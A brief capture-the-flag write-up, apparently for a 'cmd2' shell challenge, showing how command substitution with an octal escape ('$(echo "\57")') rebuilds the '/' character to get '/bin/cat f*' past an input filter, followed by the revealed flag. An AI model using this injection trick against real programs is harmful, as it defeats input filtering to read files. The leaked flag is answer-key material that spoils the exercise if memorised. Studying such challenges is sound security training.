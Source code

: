 From google, first method is replace / with $(pwd)


second is use echo to print "/"
and put it as the argv


cmd2@ubuntu:~$ ./cmd2 '$(echo "\57")bin$(echo "\57")cat f*'
$(echo "\57")bin$(echo "\57")cat f*
FuN_w1th_5h3ll_v4riabl3s_haha
